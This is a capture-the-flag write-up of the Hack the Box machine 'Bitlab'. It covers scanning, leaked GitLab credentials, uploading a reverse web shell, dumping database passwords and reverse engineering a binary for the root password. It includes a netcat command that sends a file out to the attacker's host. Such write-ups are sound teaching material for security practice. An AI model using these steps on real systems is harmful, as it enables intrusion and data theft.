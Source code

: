 +++
author = "Nick"
categories = ["hack the box", "decrypt", "PHP", "gitlab", "GIT", "reverse shell", "psql", "ssh", "ollydbg", "reverse engineering"]
date = 2020-01-11T12:20:41Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/10/bitlab_info.png"
slug = "hack-the-box-bitlab"
summary = "Welcome back! Today we are doing the machine Bitlab on Hack the Box. "
tags = ["hack the box", "decrypt", "PHP", "gitlab", "GIT", "reverse shell", "psql", "ssh", "ollydbg", "reverse engineering"]
title = "Hack the Box - Bitlab"

+++


Welcome back! Today we are doing the machine Bitlab on Hack the Box.

As usual we start with our nmap scan: ```nmap -sC -sV -oA bitlab_scan 10.10.10.114```.

Our initial scan comes back with two results. Ports ```22``` and ```80```. We see that port ```80``` is leaking some info in the scan from the ```robots.txt```:

```
Nmap scan report for 10.10.10.114
Host is up (0.087s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.72 seconds
```

Now I'll run ```gobuster``` against the URL:

```gobuster dir -u http://10.10.10.114 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -o go_results.txt --wildcard```. 

While that runs through I'll start to manually parse through the site and see if there are any glaring hints. This will usually include, checking default passwords, source code and looking up the platform that is running.

![](/images/2019/10/image-80.png)

The ```gobuster``` results show 5 potential locations. We browse through each and notice nothing particularly useful. However, if you continue to manually enumerate the page you will see there is a ```bookmarks.html``` link under the help section. When we follow this through we see there is an obfuscated JS function.

![](/images/2019/10/image-81.png)

When we de-obfuscate the function we get the following:

![](/images/2019/10/image-82.png)

It looks like an attempt to make an auto login type function. By passing the ```username``` clave and ```password``` of 11des0081x to the gitlab page. So we manually try these credentials and they work!

![](/images/2019/10/image-83.png)

Now that we have an authenticated. We can continue to look around the page to see what might be of use. At this point in the enumeration we have also run a ```searchsploit``` on gitlab to see what might be out there. We do see there are a few options, one of which might be promising. We will continue to sift through the commits. The ```index.php``` file has some execution happening on it which we might be able to leverage. We also see some interesting code under the snippets location. A username and password for the postrgres connector. We also have the admins profile page. We have the ability to create files and merge them. So this will be easy, we'll just upload a webshell, merge the branch and go to the page we've just created.

![](/images/2019/10/image-84.png)

We use the standard ```pentest monkey``` reverse web shell upload it, start our ```netcat``` listener, merge the branch and navigate to the page. Next thing you know we have a webshell.

![](/images/2019/10/image-85.png)

We try to snag the ```user.txt``` but run into a permissions issue. So we'll start enumerating with some standard tools, ```linenum``` and ```pspy64```. We fire up our ```SimpleHTTPServer``` and download what we need. While that runs we take a look at what we can run as a privileged user. We have the ability to ```git pull```. We also see that we are in a docker container, so we'll want to try an enumerate the other portion of the systems. As it turns out nmap is on the system and we have the ability to run it.

We run an nmap scan against the IP's that we've found to enumerate them a bit further. We come back with quite a listing:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-21 15:36 UTC
Nmap scan report for bitlab (172.19.0.1)
Host is up (0.00038s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap scan report for 172.19.0.2
Host is up (0.00051s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  redis

Nmap scan report for 172.19.0.3
Host is up (0.00038s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
5432/tcp open  postgresql

Nmap scan report for 172.19.0.4
Host is up (0.00011s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 172.19.0.5
Host is up (0.00014s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8181/tcp open  intermapper

Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-21 15:39 UTC
Nmap scan report for bitlab (172.17.0.1)
Host is up (0.000090s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
8000/tcp open  http-alt
```

Now we've got a fairly good idea of the landscape. Lets focus on gaining user. If we circle back around to the enumeration we did previously, we can try to leverage the hidden snippet we found. When we look at it, we see that it's making a database connection but that's it. So once the connection is made, we can just output the rows. We then create this file and merge the branch.

![](/images/2019/10/image-87.png)

Once we've merged the branch, we head over to the page name and see what results come back.

![](/images/2019/10/image-86.png)

Looks like we get a username and a ```base64``` encrypted password. We decode it and get ```ssh-str0ng-p@ss```. So either this entire string is the password or some combination of it is the ```ssh``` password. So when I try to ```ssh``` into the box as the user, I keep getting denied. So is this possibly not the right password? As the ```www-data user```, we try to change users to clave. We have the ability to but we don't seem to have the right password. Maybe the password is the hash, we are doing CTF's ;). Sure enough, the password was the hash and not the decrypted content.

![](/images/2019/10/image-88.png)

Now that we're are loggin in as clave, we snag our user.txt and move onto root. In Clave's home directory we have a binary called ```RemoteConnection.exe```. Now often Remote Connection tools can save credentials inside. So we'll transfer the binary back to our system start to reverse engineer it. So we set up a ```netcat``` listener on our machine. We then send the file on the remote machine: ```nc -w 3 10.10.15.236 1999 < RemoteConnection.exe```. Once we've received the file we can start to break it down.

We'll use [Ollydbg](http://www.ollydbg.de/) as our debugger to see what it may show. I also did a quick glace at the file in Ida as well. 

We'll load the application into Olly. Initially stepping into the application looking for the entry point that we can enter data to our application. We set a few breakpoints on those and start stepping in. We are able to quickly find what we are looking for:

![](/images/2019/10/image-89.png)

![](/images/2019/10/image-90.png)

![](/images/2019/10/image-91.png)

We have a root password here! Let's see if it works.

![](/images/2019/10/image-92.png)

It does indeed. Root flag captured! Overall a pretty easy box. I know that some people I spoke to said that you could go right from the low privileged shell to root using ```git pull```. There are multiple paths to root on this box. This is just how I did mine!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).




